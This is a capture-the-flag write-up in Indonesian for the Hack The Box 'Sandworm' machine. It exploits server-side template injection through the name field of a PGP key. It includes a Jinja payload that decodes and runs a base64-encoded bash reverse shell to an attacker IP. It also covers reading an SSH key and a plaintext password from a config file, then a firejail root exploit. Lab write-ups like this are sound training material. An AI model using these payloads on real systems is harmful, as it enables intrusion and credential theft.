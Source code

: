 ## Solver
Check http://sandworm.htb/ redirect to https://ssa.htb/
Check fitur di ssa.htb, ada beberapa endpoint seperti /contact, /guide, /pgp
Karena aplikasi dibuild dengan flask, kemungkinan vulnerble dengan SSTI

Check satu persatu fitur nya, ada yang menarik dengan verify signature
Kita bisa generate pgp key sendiri dulu, kemudian private key dan public key hasil generate tadi di sign dengan message random

Coba inputkan ke fitur verify signature tersebut, tampil output Signature Verification Result
Disitu nampak menarik dimana terdapat name "banua" yang dirender. name tersebut sebelumnya diinputkan saat generate pgp key

Coba generate lagi dan ubah name nya menjadi "{{7x7}}", lalu lakukan seperti langkah biasanya, dan verify signature
Ternyata name yang sebelumnya "banua" di tempat yang sama berubah menjadi "49". Artinya inject point SSTI ada disitu

```
python3 keygen.py -p banua -n {{7*7}} -e banua@ssa.htb -b 4096
python3 keygen.py -p banua -n '{{cycler.__init__.__globals__.os.popen("echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE2LjEwLzEyMzQgMD4mMQo= | base64 -d | bash").read()}}' -e banua@ssa.htb -b 4096
python3 sign.py -c 4096.pub.asc -k 4096.key.asc -p banua -m tes
```

Jailed bash
Read app.py found $M1DGu4rD$ but useless

How to get user atlas:
read .ssh/id_rsa private key, save in local and chmod 600, if libcrypto error, edit with vim and :wq

How to get user silentobserver
Read /home/atlas/.config/httpie/sessions/localhost_5000/admin.conf found password for silentobserver:quietLiketheWind22

run firejail exploit and got root

